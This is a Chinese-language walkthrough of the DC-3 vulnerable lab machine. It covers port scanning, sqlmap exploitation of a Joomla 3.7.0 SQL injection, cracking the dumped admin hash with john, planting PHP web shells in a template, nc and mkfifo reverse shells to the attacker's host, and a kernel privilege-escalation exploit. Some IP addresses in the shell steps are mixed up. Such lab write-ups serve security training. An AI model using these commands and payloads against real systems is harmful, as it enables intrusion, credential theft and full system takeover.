

# DC3-Walk Through

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

**知识点**

- Joomla SQL 注入 (中期)
- john 跑 hash (中期)
- web 命令执行 (中期)
- CVE-2016-4557 提权 (后期)

**实验环境**

`环境仅供参考`

`!!!注意,VMware 环境需要下载一个单独的 DC-3 VMware 版本!!!`

- VMware® Workstation 16 Pro
- kali : NAT 模式, 192.168.197.128
- 靶机 : NAT 模式  192.168.197.147

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.197.0/24
```



排除法,去掉自己、宿主机、网关, `192.168.197.147` 就是目标了

扫描开放端口

```bash
nmap -T5 -A -v -p- 192.168.197.147

Desc:
-T5 以最快的速度扫描一遍 T5是Nmap的最高速度级别，它表示
    用最激 进的扫描技术和最小的延迟。
-A  启用操作系统检测、版本检测、脚本扫描和跟踪路径
-v  显示详细的输出信息
-p- 全端口扫描
```

](image.png)

发现只开放一个 80 端口,那么就只能从这入手了，访问 web 发现，是一个 joomla 网站

](image.png)

dirhunt 目录扫描看看

```bash
pip3 install dirhunt
dirhunt http://192.168.197.147/

PS: dirhunt使用不了，也可以使用dirbhttp://192.168.197.147/ 
kali自带的工具
```


没啥有用的东西,用 joomscan 试试,这个是 OWASP 的一个专门扫描 Joomla 漏洞的工具

```bash
git clone https://github.com/rezasp/joomscan.git
cd joomscan
perl joomscan.pl -u http://192.168.197.147/
```


没有啥东西，不过起码告诉了我版本是 3.7.0

---

# 中期-漏洞利用

使用 searchsploit 找找这个版本的漏洞

```bash
searchsploit -w Joomla 3.7.0

Desc:
`searchsploit` 是一个用于在 Exploit-DB（Exploit Database）中搜索漏洞利用代码的工具。可以使用它来查找特定软件版本的漏洞利用代码。
`searchsploit -w Joomla 3.7.0` 旨在搜索 Joomla 3.7.0 版本的漏洞利用代码，并显示详细信息。

- `searchsploit`：启动 `searchsploit` 工具。
- `-w`：显示匹配项的详细信息，包括漏洞利用代码的详细描述和使用说明。
- `Joomla 3.7.0`：指定要搜索的目标，即 Joomla 的 3.7.0 版本。

执行这条命令后，`searchsploit` 将在 Exploit-DB 数据库中搜索与 Joomla 3.7.0 相关的漏洞利用代码，并显示相关的详细信息，包括漏洞的描述、漏洞利用代码的路径等。
```

Joomla 3.7.0 有个 CVE-2017-8917 SQL 注入漏洞
打开这个URL可以查看到详细的信息


直接 SQLMAP 走起,先使用using sqlmap 爆出表信息
```bash
sqlmap -u "http://192.168.197.147/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" 
--risk=3 --level=5 --random-agent --dbs -p list[fullordering]

Desc:
这条命令是使用 SQLMap 工具对目标 URL 进行 SQL 注入测试的 解释一下这条命令的各个参数：

- `sqlmap`：SQLMap 工具的命令。
- `-u "http://192.168.197.147/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"`
：指定目标 URL，即要进行 SQL 注入测试的网址。在这个 URL 中，`list[fullordering]` 参数被认为是一个可能存在 SQL 注入漏洞的参数。
- `--risk=3`：设置 SQL 注入测试的风险级别。风险级别越高，检测的更加深入，但也可能会导致误报。在这里，风险级别被设置为 3。
- `--level=5`：设置 SQL 注入测试的等级。等级越高，检测的更加深入，但可能会导致更多的流量和负载。在这里，等级被设置为 5。
- `--random-agent`：使用随机的 User-Agent 头部来隐藏 SQLMap 的身份。
- `--dbs`：指示 SQLMap 在发现数据库后停止并显示数据库列表。
- `-p list[fullordering]`：指定用于 SQL 注入测试的参数。

综上所述，这条命令的目的是使用 SQLMap 对指定 URL 中的 `list[fullordering]` 参数进行深度的 SQL 注入测试，
尝试发现目标系统中的数据库列表
```


```bash
sqlmap -u "http://192.168.197.147/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb --tables

Desc:
利用已经查到的 joomladb库名 来查表信息
```

```bash
sqlmap -u "http://192.168.197.147/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb --tables -T '#__users' -C name,password --dump
遇到问题直接按y
Desc:
脱裤！账户密码如下
| admin | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu |
```

密码是加密的, hashcat 和 john 都可以跑,在 DC1 中使用 hashcat 跑了密码，这里就用 john 跑一跑

```bash
echo "\$2y\$10\$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt

Desc:
先把密码写入到hash.txt,再使用指定的字典来爆破
```


ok,跑出密码 `snoopy`
`http://192.168.197.147/administrator/index.php` 登录


是时候拿个 shell 玩玩了

我们可以编辑模板来获得一个反向 shell

访问 `http://192.168.197.147/administrator/index.php?option=com_templates&view=templates`


这里随便找一个模板

到 index.php 里加点代码

```php
system($_GET['cmd']);
```


尝试访问模板预览 `http://192.168.197.147/index.php?tp=1&templateStyle=4&cmd=whoami`
可以看到命令执行成功了 是www-data用户

ok，命令成功执行，下面直接准备回弹 shell
到 index.php 里加个一句话

```php
<?php eval($_POST[1]);?>
```


使用蚁剑连接


连上去了,手动在弹个 shell 回来


```bash
现在kali机器上监听4488端口
nc -lvp 4488

Desc:
这个命令使用 nc（netcat）工具创建一个监听端口的服务器，以等待来自客户端的连接。具体各部分的含义如下：

- `nc`：netcat 命令，用于网络通信。
- `-l`：表示创建监听模式。
- `-v`：启用详细输出模式，以显示连接和传输的详细信息。
- `-p 4488`：指定要监听的端口号，这里是 4488。

这个命令的目的是在本地主机上创建一个监听端口（4488），以等待客户端连接。如果与反向 shell 命令 `nc -nv 
192.168.197.147 4488 -e /bin/bash` 配合使用，即建立了一个反向 shell 连接。

当客户端连接到本地主机的 4488 端口时，连接将被接受，并在服务器端显示详细信息，然后您将能够在客户端和服务器之间进行交互。

-------------------------------------------------------------------------------------------------------------------------------

nc -nv 192.168.197.147 4488 -e /bin/bash

Desc:
这条命令使用了 nc (netcat) 工具，尝试连接到 IP 地址
192.168.197.147 的主机的 4488 端口，并在成功连接后执行 `/bin/bash` 命令，即打开一个 Bash shell。

这条命令的各部分含义如下：

- `nc`：netcat 命令，用于网络通信。
- `-nv`：nc 命令的选项之一。`-n` 选项表示禁用主机名解析，`-v` 选项表示启用详细输出模式，以显示连接过程中的详细信息。
- `192.168.197.147`：目标主机的 IP 地址。
- `4488`：目标主机的端口号。
- `-e /bin/bash`：nc 命令的选项之一，表示在建立连接后执行指定的命令，这里是 `/bin/bash`，即打开一个 Bash shell。

这个命令的目的是在目标主机上建立一个反向 shell 连接，允许执行任意命令并与目标主机进行交互。
```


这尼玛是 openbad 的 nc，换个payload继续连

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.197.128 4488 >/tmp/f

Desc:
这个命令是一个典型的反向 shell 攻击命令，它将在目标系统上创建一个反向 shell 连接，使得攻击者可以远程执行命令并与目标系统进行交互。

以下是命令的各部分含义：

- `rm /tmp/f`：删除名为 `/tmp/f` 的临时文件（如果存在）。
- `mkfifo /tmp/f`：创建一个命名管道（FIFO），即 `/tmp/f` 文件。
- `cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.197.128 4488 >/tmp/f`：
  - `cat /tmp/f`：从命名管道 `/tmp/f` 读取数据。
  - `|`：管道符，用于将一个命令的输出传递给另一个命令。
  - `/bin/sh -i 2>&1`：启动一个交互式的 Bash shell，并将标准错误流重定向到标准输出流，从而使得输入输出都通过管道进行传输。
  - `|`：再次使用管道符。
  - `nc 192.168.197.128 4488`：使用 netcat 命令连接到 IP 地址为 `192.168.197.128`，端口为 `4488` 的远程主机。
  - `>`：重定向符，将 netcat 命令的输出重定向到文件 `/tmp/f` 中。

综合起来，这个命令的目的是在目标系统上创建一个反向 shell 连接，将本地主机上的命令通过网络发送到目标主机，同时也将目标主机上的命令输出返回到本地主机上。这样，攻击者可以在目标系统上执行任意命令，并与目标系统进行交互。

需要注意的是，这种行为是非常危险的，只能在合法授权的情况下使用，否则可能违反法律规定并导致严重后果。
```
```bash
lsb_release -a
uname -a
```
还不是被我连上了,改下交互,查看版本


---

# 后期-提权(系统漏洞)

使用 searchsploit 找找这个版本的漏洞

```bash
searchsploit -w ubuntu 16.04 4.4.x
```


存在提权漏洞 CVE-2016-4557

找个 EXP 用用


```bash
apt install -y libfuse-dev
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/blob/main/bin-sploits/39772.zip

注意：这里访问源地址是访问不到的，源地址已经搬迁了，访问我这个gitlab
```

EXP 传给靶机,kali 启个 web

```
python -m SimpleHTTPServer 80
```

靶机上下载,并运行

```
wget 192.168.197.147/39772.zip
unzip 39772.zip && cd 39772 && tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit && sh compile.sh
./doubleput
```